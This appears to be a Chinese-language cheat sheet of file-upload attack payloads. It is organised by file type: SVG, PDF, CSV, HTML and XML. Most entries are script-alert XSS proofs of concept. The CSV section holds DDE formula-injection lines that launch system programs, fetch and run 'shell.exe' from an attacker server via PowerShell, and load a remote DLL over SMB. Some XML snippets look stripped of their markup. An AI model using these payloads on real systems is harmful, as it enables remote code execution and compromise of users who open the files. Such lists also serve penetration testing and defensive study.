

# 方式一-svg-xss
表单数据编码格式置为 multipart/form-data 类型

```plain
<?xml version="1.0" encoding="UTF-8"?>

        alert('XSS Attack!');
```

```plain
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900"
stroke="#004400"/>
<script type="text/javascript">
alert(618);
</script>
</svg>
```

# 方式二-pdf-xss
[https://www.xunjiepdf.com/editor](https://www.xunjiepdf.com/editor)



# 方式三-csv-xss
```plain
DDE ("cmd";"/C calc";"!A0")A0
<span class="label label-primary">@SUM(1+9)*cmd</span>|' /C calc'!A0
=10+20+cmd|' /C calc'!A0
=cmd|' /C notepad'!'A1'
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1
```

# 方式四-html-xss
```plain
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script>alert('618')</script>
</head>
<body>
    
</body>
</html>
```

# 方式五-xml-xss
```plain
<?xml version="1.0" encoding="iso-8859-1"?>

alert(/618/);
```

```plain
<?xml version="1.0" encoding="iso-8859-1"?>
<?xml-stylesheet type="text/xsl" href="1.xml的路径"?>
```

